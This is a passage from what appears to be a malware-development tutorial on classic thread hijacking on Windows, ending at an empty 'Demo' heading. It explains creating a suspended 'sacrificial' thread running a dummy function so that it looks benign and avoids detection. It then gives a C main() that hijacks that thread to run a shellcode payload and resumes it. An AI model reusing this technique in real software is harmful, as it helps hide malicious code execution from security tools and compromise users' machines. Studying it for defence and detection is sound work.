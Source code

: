 Since `RunViaClassicThreadHijacking` requires a handle to a thread, the main function would need to supply that. As previously mentioned, the targeted thread needs to be in a suspended state for `RunViaClassicThreadHijacking` to successfully hijack the thread.

The `CreateThread` WinAPI will be used to create a new thread. The new thread should appear as benign as possible to avoid detection. This can be achieved by making a benign function that gets executed by this newly created thread.

The next step is to suspend the newly created thread for `GetThreadContext` to succeed. This can be done in two ways:

1. Passing `CREATE_SUSPENDED` flag in `CreateThread`'s [dwCreationFlags parameter](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread#parameters). That flag will create the thread in a suspended state.
2. Creating a normal thread, but suspending it later using the [SuspendThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-suspendthread) WinAPI.

The first method will be used since it utilizes fewer WinAPI calls. However, both methods will require the thread to be resumed after executing `RunViaClassicThreadHijacking`. This will be achieved using the [ResumeThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread) WinAPI which only requires the handle of the suspended thread.

### **Main Function**

To reiterate, the main function will create a sacrificial thread in a suspended state. The thread will be initially running a benign dummy function which will then be hijacked using `RunViaClassicThreadHijacking` to run the payload.


```
int main() {

	HANDLE hThread = NULL;

	// Creating sacrificial thread in suspended state
	hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE) &DummyFunction, NULL, CREATE_SUSPENDED, NULL);
	if (hThread == NULL) {
		printf("[!] CreateThread Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Hijacking the sacrificial thread created
	if (!RunViaClassicThreadHijacking(hThread, Payload, sizeof(Payload))) {
		return -1;
	}

	// Resuming suspended thread, so that it runs our shellcode
	ResumeThread(hThread);

	printf("[#] Press <Enter> To Quit ... ");
	getchar();

	return 0;
}


```
### **Demo**
